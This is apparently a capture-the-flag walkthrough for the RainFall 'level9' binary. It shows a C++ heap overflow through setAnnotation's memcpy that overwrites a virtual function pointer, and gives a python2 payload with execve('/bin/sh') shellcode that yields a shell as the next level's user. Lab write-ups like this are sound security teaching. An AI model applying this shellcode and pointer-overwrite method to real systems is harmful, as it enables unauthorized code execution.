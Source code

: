 # Walkthrough

i looked through the files in the home directory and found a binary file called 'level9'. When i executed it, i didn't see any visible changes. So i tried to run it again using the 'ltrace' command, both with and without arguments. Running it without arguments, i noticed that it exited with status 1. However, when i ran it with arguments, we could see that it calculated the length of the argument entered and copied the content of the address to another address.

```
level9@RainFall:~$ ltrace ./level9
__libc_start_main(0x80485f4, 1, 0xbffff6f4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330)                                                = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)                                                             = 0
_exit(1 <unfinished ...>
+++ exited (status 1) +++
```

To better understand the code, i decided to debug it using 'gdb'. i started by listing the functions of the program, and it looked like it was written in C++.

```
level9@RainFall:~$ ltrace ./level9 AAAA
__libc_start_main(0x80485f4, 2, 0xbffff6e4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330)                                                = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)                                                             = 0
_Znwj(108, 0xbffff6e4, 0xbffff6f0, 0xb7d79e55, 0xb7fed280)                                                                        = 0x804a008
_Znwj(108, 5, 0xbffff6f0, 0xb7d79e55, 0xb7fed280)                                                                                 = 0x804a078
strlen("AAAA")                                                                                                                    = 4
memcpy(0x0804a00c, "AAAA", 4)                                                                                                     = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c)                                                           = 0xb7fce4a0
+++ exited (status 11) +++
```

i then disassembled the main function

```s
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>: push   ebp
   0x080485f5 <+1>: mov    ebp,esp
   0x080485f7 <+3>: push   ebx
   0x080485f8 <+4>: and    esp,0xfffffff0
   0x080485fb <+7>: sub    esp,0x20
   0x080485fe <+10>: cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>: jg     0x8048610 <main+28>
   0x08048604 <+16>: mov    DWORD PTR [esp],0x1
   0x0804860b <+23>: call   0x80484f0 <_exit@plt>
   0x08048610 <+28>: mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>: call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>: mov    ebx,eax
   0x0804861e <+42>: mov    DWORD PTR [esp+0x4],0x5
   0x08048626 <+50>: mov    DWORD PTR [esp],ebx
   0x08048629 <+53>: call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>: mov    DWORD PTR [esp+0x1c],ebx
   0x08048632 <+62>: mov    DWORD PTR [esp],0x6c
   0x08048639 <+69>: call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>: mov    ebx,eax
   0x08048640 <+76>: mov    DWORD PTR [esp+0x4],0x6
   0x08048648 <+84>: mov    DWORD PTR [esp],ebx
   0x0804864b <+87>: call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>: mov    DWORD PTR [esp+0x18],ebx
   0x08048654 <+96>: mov    eax,DWORD PTR [esp+0x1c]
   0x08048658 <+100>: mov    DWORD PTR [esp+0x14],eax
   0x0804865c <+104>: mov    eax,DWORD PTR [esp+0x18]
   0x08048660 <+108>: mov    DWORD PTR [esp+0x10],eax
   0x08048664 <+112>: mov    eax,DWORD PTR [ebp+0xc]
   0x08048667 <+115>: add    eax,0x4
   0x0804866a <+118>: mov    eax,DWORD PTR [eax]
   0x0804866c <+120>: mov    DWORD PTR [esp+0x4],eax
   0x08048670 <+124>: mov    eax,DWORD PTR [esp+0x14]
   0x08048674 <+128>: mov    DWORD PTR [esp],eax
   0x08048677 <+131>: call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>: mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>: mov    eax,DWORD PTR [eax]
   0x08048682 <+142>: mov    edx,DWORD PTR [eax]
   0x08048684 <+144>: mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>: mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>: mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>: mov    DWORD PTR [esp],eax
   0x08048693 <+159>: call   edx
   0x08048695 <+161>: mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>: leave  
   0x08048699 <+165>: ret    
End of assembler dump.
```

it first checked if the number of arguments was greater than one. If it was false, it exited with a status of one.

```s
   0x080485fe <+10>: cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>: jg     0x8048610 <main+28>
   0x08048604 <+16>: mov    DWORD PTR [esp],0x1
   0x0804860b <+23>: call   0x80484f0 <_exit@plt>
```

If not, it allocated memory for the 'N' class and passed the number 5 to the constructor as a parameter. It then reallocated memory for the 'N' class again and passed the number 6 to the constructor as a parameter.

```s
   0x08048610 <+28>: mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>: call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>: mov    ebx,eax
   0x0804861e <+42>: mov    DWORD PTR [esp+0x4],0x5
   0x08048626 <+50>: mov    DWORD PTR [esp],ebx
   0x08048629 <+53>: call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>: mov    DWORD PTR [esp+0x1c],ebx
   0x08048632 <+62>: mov    DWORD PTR [esp],0x6c
   0x08048639 <+69>: call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>: mov    ebx,eax
   0x08048640 <+76>: mov    DWORD PTR [esp+0x4],0x6
   0x08048648 <+84>: mov    DWORD PTR [esp],ebx
   0x0804864b <+87>: call   0x80486f6 <_ZN1NC2Ei>
```

Next, it passed the second argument of main to the 'setAnnotation' method of the first class.

```s
   0x08048664 <+112>: mov    eax,DWORD PTR [ebp+0xc]
   0x08048667 <+115>: add    eax,0x4
   0x0804866a <+118>: mov    eax,DWORD PTR [eax] // argv[1]
   0x0804866c <+120>: mov    DWORD PTR [esp+0x4],eax
   0x08048670 <+124>: mov    eax,DWORD PTR [esp+0x14] // The address of the first allocated 'N' class.
   0x08048674 <+128>: mov    DWORD PTR [esp],eax
   0x08048677 <+131>: call   0x804870e <_ZN1N13setAnnotationEPc>
```

This method calculated the length of the parameter and used it in the 'memcpy' function, which took the address of an attribute in the class and the address of the parameter of main, along with the length of the second parameter as the last parameter.

```s
(gdb) disas _ZN1N13setAnnotationEPc
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>: push   ebp
   0x0804870f <+1>: mov    ebp,esp
   0x08048711 <+3>: sub    esp,0x18
   0x08048714 <+6>: mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>: mov    DWORD PTR [esp],eax
   0x0804871a <+12>: call   0x8048520 <strlen@plt>
   0x0804871f <+17>: mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>: add    edx,0x4
   0x08048725 <+23>: mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>: mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>: mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>: mov    DWORD PTR [esp],edx
   0x08048733 <+37>: call   0x8048510 <memcpy@plt>
   0x08048738 <+42>: leave  
   0x08048739 <+43>: ret   
```

 Finally, the program attempted to call an address, which was the address of the 'operator+' function.

 ```s
  0x0804867c <+136>: mov    eax,DWORD PTR [esp+0x10] // 0x804a078
   0x08048680 <+140>: mov    eax,DWORD PTR [eax] // 0x0804873a
   0x08048682 <+142>: mov    edx,DWORD PTR [eax] // 0x8be58955 the address of the operator+
   0x08048684 <+144>: mov    eax,DWORD PTR [esp+0x14] // 0x804a008
   0x08048688 <+148>: mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>: mov    eax,DWORD PTR [esp+0x10] // 0x804a078
   0x08048690 <+156>: mov    DWORD PTR [esp],eax
   0x08048693 <+159>: call   edx // call the operator+
 ```

 This function added the number of the class passed to it with the number of the class that called this operator+:

 ```s
 (gdb) disas _ZN1NplERS_
Dump of assembler code for function _ZN1NplERS_:
   0x0804873a <+0>: push   ebp
   0x0804873b <+1>: mov    ebp,esp
   0x0804873d <+3>: mov    eax,DWORD PTR [ebp+0x8]
   0x08048740 <+6>: mov    edx,DWORD PTR [eax+0x68]
   0x08048743 <+9>: mov    eax,DWORD PTR [ebp+0xc]
   0x08048746 <+12>: mov    eax,DWORD PTR [eax+0x68]
   0x08048749 <+15>: add    eax,edx
   0x0804874b <+17>: pop    ebp
   0x0804874c <+18>: ret  
 ```

 and the result of this method was returned in the return of the main function.

To begin, I will set a breakpoint at address 0x0804867c, which is the next instruction after the setAnnotation method. Then, I will display the heap.

```s
(gdb) b *0x0804867c
Breakpoint 2 at 0x804867c
(gdb) r AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level9/level9 AAAA
(gdb) x/76wx 0x804a000
0x804a000: 0x00000000 0x00000071 0x08048848 0x41414141
0x804a010: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a020: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a030: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a040: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a050: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a060: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a070: 0x00000005 0x00000071 0x08048848 0x00000000
0x804a080: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a090: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a0a0: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a0b0: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a0c0: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a0d0: 0x00000000 0x00000000 0x00000000 0x00000000
0x804a0e0: 0x00000006 0x00020f21 0x00000000 0x00000000
```

Next, I will modify the address of the operator+ function to point to my shell code by changing the value of address 0x804a078 to the address 0x804a00c. This will cause the value at the latter address `(0x804a010)` to be set to the address of my shell code.

```
>>> 0x804a078 - 0x804a00c
108
>>> 108 - 21 - 4 // The result of the last calculation  - The length of the shell code - The length of the address `0x804a010`
83
```

Then, i will use Python to generate the string that will overwrite the heap.

```sh
python2 -c 'print("\x08\x04\xa0\x10"[::-1] + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A" * 83 + "\x08\x04\xa0\x0c"[::-1])' > /tmp/flag
```

Now, all that is left to do is to run the program with the generated string.

```sh
level9@RainFall:~$ ./level9 `cat /tmp/flag`
$ whoami
bonus0
$ cd ../bonus0
$ ls -la
total 17
dr-xr-x---+ 1 bonus0 bonus0   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus0 bonus0  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus0 bonus0 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus0 bonus0   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus0 bonus0  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus1 users  5566 Mar  6  2016 bonus0
```